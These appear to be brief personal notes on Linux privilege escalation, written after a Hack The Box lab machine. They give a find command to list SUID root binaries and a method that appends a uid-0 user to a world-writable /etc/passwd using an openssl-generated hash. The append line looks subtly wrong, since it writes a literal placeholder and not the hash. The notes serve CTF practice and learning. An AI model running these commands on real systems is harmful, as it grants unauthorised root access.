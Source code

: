 # Privesc

# Look for suid binaries

```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

## Privesc method when have read access to /etc/passwd

Probably never happends but document it just in case as I just experienced this on htb machine

```sh
root@bank:~# ls -l /etc/passwd
-rw-rw-rw- 1 root root 1356 May  1 22:31 /etc/passwd
openssl passwd -1 -salt xyz \<password\>
echo "username:\$xyz\$\<password\>:0:0:toor,,,:/root:/bin/bash" >> /etc/passwd
```
